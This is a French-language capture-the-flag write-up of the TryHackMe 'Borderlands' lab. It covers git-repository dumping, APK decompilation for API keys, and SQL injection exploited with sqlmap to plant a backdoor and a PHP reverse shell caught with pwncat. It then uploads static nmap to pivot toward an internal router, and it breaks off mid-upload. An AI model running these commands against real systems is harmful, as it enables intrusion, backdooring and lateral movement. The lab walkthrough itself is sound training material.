


# Borderlands #

## Task 1 Deploy, attack and pivot through this network ## 

```bash
sudo sh -c "echo '10.10.86.206 borderlands.thm ' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ nmap_all borderlands.thm
sudo nmap -A borderlands.thm -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-11 09:19 CET
Nmap scan report for borderlands.thm (10.10.86.206)
Host is up (0.038s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:47:8c:a9:f5:b0:b7:1c:33:87:af:5d:eb:2e:47:73 (RSA)
|   256 60:08:5c:63:78:30:3a:73:0f:c4:a5:de:c8:e2:43:e6 (ECDSA)
|_  256 bd:aa:24:a0:a0:48:2e:1b:4e:cc:95:a8:64:b3:14:2e (ED25519)
80/tcp   open   http       nginx 1.14.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.86.206:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added mobile apk for beta testing. 
|_http-title: Context Information Security - HackBack 2
|_http-server-header: nginx/1.14.0 (Ubuntu)
8080/tcp closed http-proxy
Device type: general purpose|specialized|storage-misc|WAP|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (90%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.4 cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Linux 3.2 - 3.8 (90%), Crestron XPanel control system (89%), Linux 3.10 - 4.11 (89%), Linux 3.12 (89%), Linux 3.13 (89%), Linux 3.13 or 4.2 (89%), Linux 3.16 (89%), Linux 3.2 - 3.5 (89%), Linux 4.2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   39.86 ms 10.9.0.1
2   40.03 ms borderlands.thm (10.10.86.206)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.82 seconds
```

Nmap nous montre plusieurs services qui sont : 
Le service SSH sur le port 22.  
Le service HTTP sur le port 80 et 8080.   

Nmap nous indique d'avoir trouvé un déport git sur : 10.10.86.206:80/.git/  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ git-dumper http://10.10.86.206:80/ .git
[-] Testing http://10.10.86.206:80/.git/HEAD [200]
[-] Testing http://10.10.86.206:80/.git/ [403]
[-] Fetching common files
[-] Fetching http://10.10.86.206:80/.gitignore [404]
[-] http://10.10.86.206:80/.gitignore responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/COMMIT_EDITMSG [200]
[-] Fetching http://10.10.86.206:80/.git/description [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/post-commit.sample [404]
[-] http://10.10.86.206:80/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/hooks/pre-commit.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/post-update.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/post-receive.sample [404]
[-] http://10.10.86.206:80/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/commit-msg.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/pre-receive.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://10.10.86.206:80/.git/hooks/update.sample [200]
[-] Fetching http://10.10.86.206:80/.git/objects/info/packs [404]
[-] http://10.10.86.206:80/.git/objects/info/packs responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/hooks/pre-push.sample [200]
[-] Fetching http://10.10.86.206:80/.git/info/exclude [200]
[-] Fetching http://10.10.86.206:80/.git/index [200]
[-] Finding refs/
[-] Fetching http://10.10.86.206:80/.git/FETCH_HEAD [404]
[-] http://10.10.86.206:80/.git/FETCH_HEAD responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/HEAD [200]
[-] Fetching http://10.10.86.206:80/.git/ORIG_HEAD [404]
[-] http://10.10.86.206:80/.git/ORIG_HEAD responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/config [200]
[-] Fetching http://10.10.86.206:80/.git/info/refs [404]
[-] http://10.10.86.206:80/.git/info/refs responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/logs/HEAD [200]
[-] Fetching http://10.10.86.206:80/.git/logs/refs/remotes/origin/HEAD [404]
[-] http://10.10.86.206:80/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/logs/refs/remotes/origin/master [404]
[-] http://10.10.86.206:80/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/logs/refs/stash [404]
[-] http://10.10.86.206:80/.git/logs/refs/stash responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/logs/refs/heads/master [200]
[-] Fetching http://10.10.86.206:80/.git/packed-refs [404]
[-] http://10.10.86.206:80/.git/packed-refs responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/refs/remotes/origin/HEAD [404]
[-] http://10.10.86.206:80/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/refs/wip/index/refs/heads/master [404]
[-] Fetching http://10.10.86.206:80/.git/refs/wip/wtree/refs/heads/master [404]
[-] Fetching http://10.10.86.206:80/.git/refs/stash [404]
[-] http://10.10.86.206:80/.git/refs/stash responded with status code 404
[-] http://10.10.86.206:80/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/refs/heads/master [200]
[-] http://10.10.86.206:80/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/refs/remotes/origin/master [404]
[-] http://10.10.86.206:80/.git/refs/remotes/origin/master responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://10.10.86.206:80/.git/objects/64/80abf34a54d3055b437766be872a13bcebdf7d [200]
[-] Fetching http://10.10.86.206:80/.git/objects/15/2b2d9976cd37a68fd462af8e4ce21356b5485e [200]
[-] Fetching http://10.10.86.206:80/.git/objects/93/bab0a450caaa8c4d2632703636eccc69062bb4 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/eb/d082255f4278c8dd239af2f8e985e0a66746e0 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] http://10.10.86.206:80/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching http://10.10.86.206:80/.git/objects/03/d7929200ed474bce7934ea1985f4ac74983a62 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/04/f1f411857cc972ae8ed5efcffa298f5f6168fb [200]
[-] Fetching http://10.10.86.206:80/.git/objects/9e/b9f94f73113d785e65c7e3ec0cba54e0b7cf43 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/fe/e5595bb2ba1d1ab005ec3de98367fe5d021e9f [200]
[-] Fetching http://10.10.86.206:80/.git/objects/2a/116a56a6e31ef1836796936dbc05af1f986a26 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/b2/f776a52fe81a731c6c0fa896e7f9548aafceab [200]
[-] Fetching http://10.10.86.206:80/.git/objects/6d/b3cf70b469de942f2f529166088cdfbbd5f764 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/79/c9539b6566b06d6dec2755fdf58f5f9ec8822f [200]
[-] Fetching http://10.10.86.206:80/.git/objects/33/7c2224b69c29a0faf3143d2da16d9bb82e91fb [200]
[-] Fetching http://10.10.86.206:80/.git/objects/09/1ed908bcb54a002d3194c375570a508747dd28 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/3e/8ebd2ecafa693a3fdb9b91e4a694d133012c3b [200]
[-] Fetching http://10.10.86.206:80/.git/objects/bf/9d9df13bf0565a2bb75753ec50be3723c72241 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/77/e7884c18472152e372c060a6ba40dd555a5eed [200]
[-] Fetching http://10.10.86.206:80/.git/objects/f0/baf222720667090e52874204868a052ea32dc7 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/0d/487f41b42eeb061fbd3a6aec8db01e139e514d [200]
[-] Fetching http://10.10.86.206:80/.git/objects/2a/bf4c29f7ae182fa75ba9914fcd47c6614a9b29 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/51/d63292792fb7f97728cd3dcaac3ef364f374ba [200]
[-] Fetching http://10.10.86.206:80/.git/objects/b9/953f00f7ad7a26460fa249e00fe05eb52d224c [200]
[-] Fetching http://10.10.86.206:80/.git/objects/4c/d24129c3255a3f7e84f7d42ddd94cccd2a697b [200]
[-] Fetching http://10.10.86.206:80/.git/objects/47/0cac65fcd0f8556f13997957a331628482aa96 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/4f/4ced90fcad774ca4f9f966dbb227ebe7f77a83 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/e0/03b9156c54897414bc5958372b10d76fed64bb [200]
[-] Fetching http://10.10.86.206:80/.git/objects/22/29eb414d7945688b90d7cd0a786fd888bcc6a4 [200]
[-] Fetching http://10.10.86.206:80/.git/objects/fd/efad64c4f3be0fe33ea5837c0fe75b8ee2ef2c [200]
[-] Fetching http://10.10.86.206:80/.git/objects/15/6f4e78a91e169db2e04b65767fc732b1ce2a7a [200]
```  

On télécharge le dépôt git.   

**What is the API key that fits the following pattern: "AND*"**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://borderlands.thm/mobile-app-prototype.apk -nv
2021-11-11 15:34:42 URL:http://borderlands.thm/mobile-app-prototype.apk [2226185/2226185] -> "mobile-app-prototype.apk" [1]
```

On télécharge l'application mobile du site.   



On la décompile avec jadx-gui et on trouve une chaîne encrypted_api_key.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ apktool d mobile-app-prototype.apk
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.5.0-dirty on mobile-app-prototype.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/tim/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
tim@kali:~/Bureau/tryhackme/write-up$ grep -rn 'encrypted_api_key'
mobile-app-prototype/res/values/public.xml:892:    <public type="string" name="encrypted_api_key" id="0x7f0b0028" />
mobile-app-prototype/res/values/strings.xml:43:    <string name="encrypted_api_key">CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo</string>
mobile-app-prototype/smali/com/example/ctf1/R$string.smali:98:.field public static final encrypted_api_key:I = 0x7f0b0028
grep: mobile-app-prototype.apk : fichiers binaires correspondent
```

On décompile l'application avec apktool et on récupère le texte chiffré qui est : CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo  

```php
tim@kali:~/Bureau/tryhackme/write-up/.git$ cat api.php 
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "GITtFi80llzs4TxqMWtC"))
{
    die("Invalid API key");
}
```

Dans api.php on trouve le flag partiel qui est : ANDVOWLDLAS5Q8OQZ2tu   

On décode

CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo (chiffré)
ANDVOWLDLAS5Q8OQZ2tu           (claire)           
CONTEXT                        (clé) 



Avec la clef on trouve le falg complet qui est : ANDVOWLDLAS5Q8OQZ2tuIPGcOu2mXk  

**What is the API key that fits the following pattern: "WEB*"** 

```php
tim@kali:~/Bureau/tryhackme/write-up/.git$ cat home.php 
<?php
...
while ($stmt -> fetch()) {
    echo ('<li><a href="api.php?documentid='.$documentid.'&amp;apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD">'.$document_name.'</a></li>');
    $resultsArray[] = array("documentid" => $documentid, "documentname" => $document_name, "location" => $location);
}
echo ("</ul>");

/*
if (isset($_GET['documentid']) && is_numeric($_GET['documentid']))
{
    foreach ($resultsArray as $result)
    {
        if ($result["documentid"] == $_GET['documentid'])
        {
            echo "<p>Enter the new name for the document: ".$result['documentname']."</p>";
            echo ('<form method="GET" action="api.php">');
            echo ('<input type="hidden" id="documentid" name="documentid" value="'.$_GET['documentid'].'" />');
            echo ('<input type="hidden" id="apikey" name="apikey" value="WEBLhvOJAH8d50Z4y5G5g4McG1GMGD" />');
            echo ('<input type="text" id="newname" name="newname" />');
            echo ('<input type="submit" />');
        }
    }
}
*/...
```

Dans home.php dans le dépôt git on trouve le flag : WEBLhvOJAH8d50Z4y5G5g4McG1GMGD   

**What is the API key that fits the following pattern: "GIT*"**  

```bash
tim@kali:~/Bureau/tryhackme/write-up/.git$ git log
commit 6db3cf70b469de942f2f529166088cdfbbd5f764 (HEAD -> master)
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:44:31 2019 +0100

    added mobile apk for beta testing.

commit fee5595bb2ba1d1ab005ec3de98367fe5d021e9f
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:43:26 2019 +0100

    added white paper pdf's

commit 04f1f411857cc972ae8ed5efcffa298f5f6168fb
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:42:12 2019 +0100

    added theme

commit b2f776a52fe81a731c6c0fa896e7f9548aafceab
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:41:00 2019 +0100

    removed sensitive data

commit 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:40:28 2019 +0100

    added basic prototype of api gateway

commit 93bab0a450caaa8c4d2632703636eccc69062bb4
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:33:58 2019 +0100

    added under construction page

commit 152b2d9976cd37a68fd462af8e4ce21356b5485e
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:31:11 2019 +0100

    created repo
```

On regarde les logs des repos.  
Dans le commit  b2f776a52fe81a731c6c0fa896e7f9548aafceab, il y a des informations sensibles qui ont été retirés.  

tim@kali:~/Bureau/tryhackme/write-up/.git$ git show b2f776a52fe81a731c6c0fa896e7f9548aafceab
commit b2f776a52fe81a731c6c0fa896e7f9548aafceab
Author: Context Information Security <recruitment@contextis.com>
Date:   Tue Sep 10 14:41:00 2019 +0100

    removed sensitive data

diff --git a/api.php b/api.php
index 2229eb4..ebd0822 100644
--- a/api.php
+++ b/api.php
@@ -2,7 +2,7 @@
 
 require_once("functions.php");
 
-if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "GITtFi80llzs4TxqMWtCotiTZpf0HC"))
+if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "GITtFi80llzs4TxqMWtC"))
 {
     die("Invalid API key");
 }

On regarde se qui a été changé et on voit que c'est le flag : GITtFi80llzs4TxqMWtCotiTZpf0HC

**What is the flag in the /var/www directory of the web app host? {FLAG:Webapp:XXX}**  

```php
tim@kali:~/Bureau/tryhackme/write-up/.git$ cat api.php 
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "GITtFi80llzs4TxqMWtC"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}

/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/

$conn = setup_db_connection();

//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);

$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>
```

On voit que api.php est vulnérable à une injection sql, il y a aucun contrôle.  

```bash
tim@kali:~/Bureau/tryhackme/write-up/.git$ sqlmap -u "http://borderlands.thm /api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1" -p "documentid" --os-shell
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:30:26 /2021-11-11/

[17:30:26] [INFO] testing connection to the target URL
[17:30:26] [INFO] testing if the target URL content is stable
[17:30:26] [INFO] target URL content is stable
...
[17:30:44] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] 
[17:30:49] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 
[17:30:53] [WARNING] unable to automatically parse any web server path
[17:30:53] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[17:30:53] [WARNING] potential permission problems detected ('Permission denied')
[17:30:53] [WARNING] unable to upload the file stager on '/var/www/'
[17:30:53] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[17:30:53] [WARNING] expect junk characters inside the file as a leftover from UNION query
[17:30:53] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[17:30:53] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[17:30:54] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://borderlands.thm:80/tmpukjad.php
[17:30:54] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://borderlands.thm:80/tmpbildt.php
[17:30:54] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> 
...

```

On demande à sqlmap d'exploiter l'injection sql et d'avoir un shell.   

```bash
os-shell> ls ../
command standard output:
---
flag.txt
html
---
os-shell> cat ../flag.txt
command standard output: '{FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}'
```

Un foit que l'on a le shell on lit le fichier flag.txt dans /var/www   $
Le flag est : {FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}  

**What is the flag in the /root/ directory of router1? {FLAG:Router1:XXX}**  

Nous avons pas un vrai shell.  

```bash
sudo pwncat -l 1234
```

On écoute sur le port 1234 pour avoir un shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -u "http://borderlands.thm /api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1" -p "documentid" --file-write=reverseShell.php --file-dest=/var/www/html/shell.php
```

On envoie notre reverse shell sur la machine cible.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://borderlands.thm/shell.php
```

On exécute notre reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[17:59:16] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
[18:00:59] received connection from 10.10.83.8:37080                                                                                                                                                                                bind.py:76
[18:01:00] 0.0.0.0:1234: upgrading from /bin/dash to /bin/bash                                                                                                                                                                  manager.py:504
[18:01:01] 10.10.83.8:37080: registered new host w/ db                                                                                                                                                                          manager.py:504
(local) pwncat$                                     

(remote) www-data@app.ctx.ctf:/tmp$ cat /etc/hosts
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.2	app.ctx.ctf app
172.16.1.10	app.ctx.ctf app
```

Quand on regarde le hosts on voit deux adresses qui sont : 
172.18.0.2 et 172.16.1.10.


```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/timruff/static-binaries/raw/master/binaries/linux/x86_64/nmap -nv
2021-11-11 18:33:48 URL:https://raw.githubusercontent.com/timruff/static-binaries/master/binaries/linux/x86_64/nmap [5944464/5944464] -> "nmap" [1]

tim@kali:~/Bureau/tryhackme/write-up$ tar czvf nmap.tar.gz nmap

tim@kali:~/Bureau/tryhackme/write-up$ split -b 500K nmap.tar.gz 
```

On télécharge une version nmap compilée en static, il n'a pas besoin de libraires externes.   
On le compresse et on le découpe en morceaux de 500ko, sinon il y a des corruptions.

```bash
(remote) www-data@app.ctx.ctf:/tmp$ 
(local) pwncat$ upload ./xaa
./xaa ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:27] uploaded 512.00KiB in 1.34 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xab
./xab ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:33] uploaded 512.00KiB in 1.20 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xac
./xac ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:37] uploaded 512.00KiB in 1.17 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xad
./xad ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[21:58:42] uploaded 512.00KiB in 0.98 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xae
./xae ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 122.3/122.3 KB • ? • 0:00:00
[21:58:45] uploaded 122.26KiB in 0.67 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$                                                                                                                                                                                                                               
(remote) www-data@app.ctx.ctf:/tmp$ ls 
tmp.LafmN1qNjH	xaa  xab  xac  xad  xae
(remote) www-data@app.ctx.ctf:/tmp$ cat xa* > nmap.tar.gz
(remote) www-data@app.ctx.ctf:/tmp$ tar xzvf nmap.tar.gz 
nmap
(remote) www-data@app.ctx.ctf:/tmp$ chmod +x nmap
```

On télécharge nmap et on le réassemble.    

```bash
(remote) www-data@app.ctx.ctf:/tmp$ ./nmap router1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-11-11 21:08 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for router1 (172.16.1.128)
Host is up (0.00016s latency).
rDNS record for 172.16.1.128: hackback_router1_1.hackback_r_1_ext
Not shown: 1203 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
179/tcp  open  bgp
2601/tcp open  zebra━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

On prépare à transferer chise sur la machine cible pour faire un port forwarding. 

```bash
remote) www-data@app.ctx.ctf:/tmp$ 
(local) pwncat$ upload ./xaa
./xaa ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:04:57] uploaded 512.00KiB in 0.96 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xab
